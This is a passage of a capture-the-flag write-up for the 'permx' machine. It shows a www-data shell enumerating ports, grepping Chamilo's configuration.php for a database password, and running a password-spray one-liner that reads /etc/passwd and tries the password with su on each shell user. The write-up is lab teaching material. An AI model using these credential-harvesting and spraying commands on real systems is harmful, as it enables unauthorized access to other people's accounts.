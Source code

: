 # Root Flag
---

## From www-data to mtz


### Harvesting - database config

```bash
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ ss -ltnp
State                    Recv-Q                   Send-Q                                     Local Address:Port                                     Peer Address:Port                  Process
LISTEN                   0                        4096                                       127.0.0.53%lo:53                                            0.0.0.0:*
LISTEN                   0                        128                                              0.0.0.0:22                                            0.0.0.0:*
LISTEN                   0                        80                                             127.0.0.1:3306                                          0.0.0.0:*
LISTEN                   0                        128                                                 [::]:22                                               [::]:*
LISTEN                   0                        511                                                    *:80                                                  *:*
```

- Google : `chamilo database config file location`

![](/assets/obsidian/dbf7edb5c3f861e38382eaf3b6900dc2.png)

```bash
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ cd /var/www/chamilo/app/config
www-data@permx:/var/www/chamilo/app/config$ grep -rin pass -E5
[...]
configuration.php-17-$_configuration['db_host'] = 'localhost';
configuration.php-18-$_configuration['db_port'] = '3306';
configuration.php-19-$_configuration['main_database'] = 'chamilo';
configuration.php-20-$_configuration['db_user'] = 'chamilo';
configuration.php:21:$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
configuration.php-22-// Enable access to database management for platform admins.
[...]
```

### Password spray

```bash
www-data@permx:/var/www/chamilo/app/config$ PASS='03F6lY3uXAP2bkW8'; for USER in $(cat /etc/passwd|grep sh$|awk -F: '{print $1}'); do (x=$(echo $PASS | su $USER -c whoami); if [ "$x" ]; then echo "[+] $USER"; fi) & done
[1] 5821
[2] 5822
www-data@permx:/var/www/chamilo/app/config$ Password: Password: [+] mtz
```
